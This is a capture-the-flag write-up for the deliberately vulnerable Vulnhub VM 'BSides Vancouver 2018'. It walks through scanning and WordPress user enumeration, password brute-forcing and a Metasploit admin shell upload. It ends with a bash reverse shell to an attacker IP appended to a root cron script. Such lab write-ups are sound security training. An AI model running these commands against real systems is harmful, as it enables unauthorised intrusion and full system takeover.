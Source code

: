# CTF Writeup : Besides_Vancouver2018

Besides_Vancouver2018 is a linux VM , that has several vulnerabilities, written by [*abatchy*](https://www.vulnhub.com/author/abatchy,393/). You can find it at [Vulnhub](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/).

Boot2root challenges aim to create a safe environment where you can perform real-world penetration testing on an (intentionally) vulnerable target.

## Discovery

First we do host discovery scan at our network.

![host discovery](resources/host-discovery.png)

We can see there's a working http service.

![http](resources/http.png)


Let's try to apply dictionary attack against server content, using **dirb** tool.

```
root@kali:~# dirb http://192.168.1.8/
```

See that ! There're 7 objects.
```
---- Scanning URL: http://192.168.1.8/ ----
+ http://192.168.1.8/.bash_history (CODE:200|SIZE:1090)
+ http://192.168.1.8/cgi-bin/ (CODE:403|SIZE:288)  
+ http://192.168.1.8/index (CODE:200|SIZE:177)      
+ http://192.168.1.8/index.html (CODE:200|SIZE:177)
+ http://192.168.1.8/robots (CODE:200|SIZE:43)       
+ http://192.168.1.8/robots.txt (CODE:200|SIZE:43)
+ http://192.168.1.8/server-status (CODE:403|SIZE:293)
```

## Scanning

It's time to start automaic scanner for potential problems and security vulnerabilities, nikto can handle that!
```
root@kali:~# nikto -h 192.168.1.8
```
Here's output.
```
+ Server: Apache/2.2.22 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, inode: 2140, size: 177, mtime: Sat Mar  3 21:17:59 2018
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ Uncommon header 'link' found, with contents: </backup_wordpress/?rest_route=/>; rel="https://api.w.org/"
+ Entry '/backup_wordpress/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
```

Here's the directory /backup_wordpress is of interest, it seems to be the home directory of a wordpress blog.

What about the users login !
```
root@kali:~# wpscan --url http://192.168.1.8/backup_wordpress --enumerate u
```
```
[+] Identified the following 2 user/s:
    +----+-------+------+
    | Id | Login | Name |
    +----+-------+------+
    | 1  | admin | admi |
    | 2  | john  | joh  |
    +----+-------+------+
```

**Admin** and **john** , are valid logins here. Thanks you WordPress !

Now let’s see if we can get even luckier with brute-forcing the password.

```
root@kali:~# wpscan --url http://192.168.1.8/backup_wordpress --wordlist /usr/share/wordlists/dirb/big.txt --thread 2
```

![brute force](resources/bruteforce.png)

Awesome ! unknown response for login: **john** and password: **enigma**.

With access to the WordPress account , we can now upload anything to the server and have it run .
Get shell out of this seems very awesome !

Metasploit Framework can help us to handle this scenario.

## Exploitation
```
msf > use unix/webapp/wp_admin_shell_upload
```

Editing module's options; login, password, rhost and targeturi (since WordPress is not located in /var/www/html)


```
msf exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME john
USERNAME => john
msf exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD enigma
PASSWORD => enigma
msf exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /backup_wordpress
TARGETURI => /backup_wordpress
msf exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.1.8
RHOST => 192.168.1.8
msf exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

With correct options' parameters , you will gain meterpreter shell.

```
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
```
www-data@bsides2018:/var/www/backup_wordpress/wp-content/plugins/IVLUgBLIBB$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we spawn a bash shell and get into the system. But we need **root** access !

I suggest scanning for privilege escalation, by running **unix-privesc-check** on remote host,we can see if there're vulnerabilities. Let's upload the file to a running apache server on local host.
```
root@kali:~# service apache2 start
www-data@bsides2018:/tmp$ wget http://192.168.1.7/unix-privesc-check
```

Search the output below for the word 'WARNING'.  If you don't see it then
```
www-data@bsides2018:/tmp$ ./unix-privesc-check standard
WARNING: /usr/local/bin/cleanup is run from crontab as root. World write is set for /usr/local/bin/cleanup
```
Good job ! We found a privilege escalation scenario .

```
www-data@bsides2018:/tmp$ ls -l /usr/local/bin
-rwxrwxrwx 1 root root 55 May 24 05:54 cleanup
```

The file has execution, modification permissions and ownrship of root. After exploring crontab , I've seen that the cleanup file is executed every one minute.

```
# m h dom mon dow user	 command
*  *    * * *     root    /usr/local/bin/cleanup
```

Our target now is to forward a reverse shell to gain root access.
So , start listening for that forwarded shell.

```
root@kali:~# nc -lvvp 55555
```

Hence, edit the targeted file (cleanup) to start forwarding.
```
www-data@bsides2018:/usr/local/bin$ echo 'bash -i >& /dev/tcp/192.168.1.7/55555 0>&1' >> cleanup
```

The '**>&**' to initialize interactive shell and '**0>&1**' to swap stdin into stdout. Linux has built-in tcp forwarding ,hence we supply the attacker host IP with listening port.

Eventually, congratulations ! You gain root access.
```
root@bsides2018:~# id
uid=0(root) gid=0(root) groups=0(root)
```
```
root@bsides2018:~# cat flag.txt
Congratulations!

If you can read this, that means you were able to obtain root permissions on this VM.
You should be proud!

There are multiple ways to gain access remotely, as well as for privilege escalation.
Did you find them all?

@abatchy17
```
